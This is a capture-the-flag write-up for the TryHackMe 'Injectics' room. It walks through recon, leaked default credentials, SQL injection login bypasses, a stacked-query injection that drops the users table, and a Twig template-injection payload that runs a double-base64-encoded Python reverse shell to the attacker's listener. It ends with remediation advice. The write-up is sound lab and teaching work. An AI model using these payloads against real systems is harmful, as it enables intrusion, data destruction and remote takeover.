





# [Injectics](https://tryhackme.com/room/injectics)

Reconstructed from the terminal capture (`log.txt`) and the Burp Suite /
browser screenshots left in this folder. Where the captured artifacts don't
show a step directly, that's called out explicitly rather than assumed.

- **Target:** `10.48.130.9`
- **Attacker (Kali):** `192.168.135.146`
- **Flag:** `THM{5735172b6c147f4dd649872f73e0fdea}`

## 1. Recon

```
nmap -sC -sV 10.48.130.9 -p-
22/tcp  ssh    OpenSSH 8.2p1 Ubuntu
80/tcp  http   Apache/2.4.41 (Ubuntu) — "Injectics Leaderboard"
```

`gobuster`/`dirsearch` against port 80 turn up the app's structure:

```
index.php        login.php         dashboard.php       logout.php
functions.php     conn.php          edit_leaderboard.php
flags/            phpmyadmin/       vendor/ (composer.json/lock)
mail.log
```

`mail.log` being directly servable by Apache (`200 - 1KB - /mail.log`) is the
first real finding — a flat-file leftover that should never have been under
the webroot.

## 2. `mail.log` — the self-healing backdoor



The leaked internal email describes a maintenance feature called
**InjecticsService**: it runs every minute, watches the database, and — "as
an extra layer of safety" — **automatically re-inserts a set of default
credentials into the `users` table if that table is ever deleted or
corrupted**:

| Email | Password |
|---|---|
| `superadmin@injectics.thm` | `superSecurePasswd101` |
| `dev@injectics.thm` | `devPasswd123` |

On its own this is just a bad idea that's been forgotten about. Combined
with a SQL injection that can run a destructive statement, it turns into a
reliable way to force a known-password account into existence on demand.

I tried several payloads on intruder against a random username/password combo, but placed SQLi payloads in the `email`.

```
user' OR '1'='1';
```

## 3. SQL injection - Initial login bypass

**Fuzzing the login function** — Burp Intruder (Sniper) against the AJAX
backend `functions.php`, hammering the `username` field of the
`username=§...§&password=lion&function=login` POST body used by `login.php`:



What worked was :

```
admin' OR '1'='1'
```

**Confirmed stacked-query injection on the authenticated leaderboard-edit
endpoint** — `/edit_leaderboard.php`, in the `bronze` parameter:



```
POST /edit_leaderboard.php
rank=1&country=USA&gold=2100&silver=9900&bronze=1+WHERE+1%3D1%3B
```

`bronze` lands in a query without sanitization (classic
`UPDATE leaderboard SET ... bronze=$bronze ...` string-built SQL) and — since
the DB driver allows multi-statement execution — accepts a trailing `;` to
start a second, attacker-supplied statement. That's a stacked-query SQLi,
not just a boolean/UNION-based read primitive.

The `WHERE 1=1;` is just a no-op to make the first statement valid; the
second statement is where the attacker can do whatever they want (e.g. `DROP TABLE users;`).

The same works on edits on all, 'gold', 'silver', and 'bronze'.

## 4. Weaponizing the injection: `DROP TABLE users;` on purpose



Instead of fighting to exfiltrate data through the injection (no visible
UNION/error output, and the app doesn't reflect query results back), the
stacked-query primitive is used to run `...;DROP TABLE users;--` outright.
The app's own response confirms it:

> Seems like database or some important table is deleted. InjecticsService
> is running to restore it. Please wait for 1-2 minutes.

That's the self-healing cron job from `mail.log` kicking in exactly as
advertised — and it rebuilds the `users` table with the two default accounts
leaked in that email. **The destructive SQLi is the credential-reset
primitive**: you don't need to crack or extract a password hash when you can
just delete the table and let the app hand you a known one back.

## 5. Logging in with the restored defaults

After waiting ~1-2 minutes for `InjecticsService` to run:



```
POST /adminLogin007.php
mail=superadmin%40injectics.thm&pass=superSecurePasswd101
```

`200 OK`, login page replaced with the authenticated app shell — confirming
the reset worked and the leaked default superadmin credentials are now live
on a fresh `users` table.

## 6. From admin access to a shell

`log.txt` picks back up with `nc -lvnp 9877` repeatedly catching inbound
Python reverse-shell callbacks from the target (several die on
`pty.spawn`/`KeyboardInterrupt` before one sticks), landing an interactive
shell as `ubuntu`:

```
$ ls -al
drwxr-xr-x 6 ubuntu ubuntu ... .
-rw-rw-r-- 1 ubuntu ubuntu ... .conn.php.swp
-rwxrwxr-x 1 ubuntu ubuntu ... injecticsService.php
...
```

It was through the SSTI vulnerable endpoint that edits admin profile. Hints were within one of the enumerated files, which revealed it was a Twig template. 

Payload:

```php
{{ ['python3 -c "$(echo YVcxd2IzSjBJSE52WTJ0bGRDeHpkV0p3Y205alpYTnpMRzl6TzNNOWMyOWphMlYwTG5OdlkydGxkQ2h6YjJOclpYUXVRVVpmU1U1RgpWQ3h6YjJOclpYUXVVMDlEUzE5VFZGSkZRVTBwTzNNdVkyOXVibVZqZENnb0lqRTVNaTR4TmpndU1UTTFMakUwTmlJc09UZzNOeWtwCk8yOXpMbVIxY0RJb2N5NW1hV3hsYm04b0tTd3dLVHNnYjNNdVpIVndNaWh6TG1acGJHVnVieWdwTERFcE8yOXpMbVIxY0RJb2N5NW0KYVd4bGJtOG9LU3d5S1R0cGJYQnZjblFnY0hSNU95QndkSGt1YzNCaGQyNG9Jbk5vSWlrN0NnPT0K | base64 -d | base64 -d)"', ''] | sort('passthru') }}
```

Why py?? Basic bash rev-shell didn't work for me... And yes, I was wrong.

## 7. Flag

```
$ cd flags && ls
5d8af1dc14503c7e4bdc8e51a3469f48.txt
$ cat 5d8af1dc14503c7e4bdc8e51a3469f48.txt
THM{5735172b6c147f4dd649872f73e0fdea}
```

## 8. Post-flag: further escalation attempts (unfinished in the capture)

After grabbing the flag, `log.txt` shows continued work back on the attacker
box: an attempted Twig SSTI gadget (`{{ [cmd, ""] | sort('passthru') }}` —
abusing Twig's `sort` filter's optional comparator argument as an arbitrary
callable, a known technique for getting arbitrary PHP-function execution out
of a Twig template context) typed directly at the local zsh prompt by
mistake (hence the `zsh: bad pattern`/`number expected` errors — this was
clearly meant to go out as an HTTP payload, not run locally), followed by
several rounds of base64- and double-base64-wrapping a Python reverse-shell
one-liner (presumably to dodge a filter on the delivery channel). The log
ends mid-attempt without a confirmed second shell, so whatever this was
aiming at (a cleaner shell, or privilege escalation past `ubuntu`) is not
resolved in the captured artifacts.

## Chain summary

```
/mail.log readable → leaks default creds + "InjecticsService auto-restores
users table on deletion" behavior
  └─ stacked-query SQLi in edit_leaderboard.php's `bronze` param
       → DROP TABLE users; (destructive, on purpose)
           → InjecticsService cron restores table with leaked default creds
               → login to /adminLogin007.php as superadmin
                   → (unconfirmed step) → RCE → reverse shell as ubuntu
                       → /flags/*.txt → THM{5735172b6c147f4dd649872f73e0fdea}
```

## Files in this folder

| File | Role |
|---|---|
| `log.txt` | Attacker-side terminal capture: nmap, gobuster, dirsearch, shell-catching, post-flag payload experimentation |
| `injectics_def_passwd.png` | `/mail.log` leaking default creds + the self-heal behavior |
| `initial_injection.png` | Burp Intruder fuzzing `functions.php`'s `username` field |
| `sql_injection_on_user_profile_page.png` | Confirmed stacked-query SQLi in `edit_leaderboard.php`'s `bronze` param |
| `dropped_the_user_tb_app.png` | App confirming `users` table was dropped and is being auto-restored |
| `defaults_work_now.png` | Successful admin login to `/adminLogin007.php` using the restored default creds |

## Notes / remediation (for a real deployment)

- Never ship `.log` files (or anything else not meant to be served) inside
  the webroot — `mail.log` alone handed over the entire credential-reset
  primitive here.
- A "self-healing" job that silently re-inserts **known, hardcoded**
  credentials whenever a table looks wrong is a standing backdoor, not a
  resilience feature — any bug that lets an attacker corrupt that table
  (including an unrelated one, like this SQLi) becomes a privileged-account
  reset button.
- Parameterize queries / use prepared statements everywhere, and disable
  multi-statement execution on the DB connection if the driver supports it —
  stacked queries turn ordinary SQLi into arbitrary DDL (`DROP`, `ALTER`,
  etc.), which is a much bigger blast radius than a read-only UNION leak.
- An obscure admin login path (`/adminLogin007.php`) is not access control —
  it was found by basic recon tooling the moment it mattered.
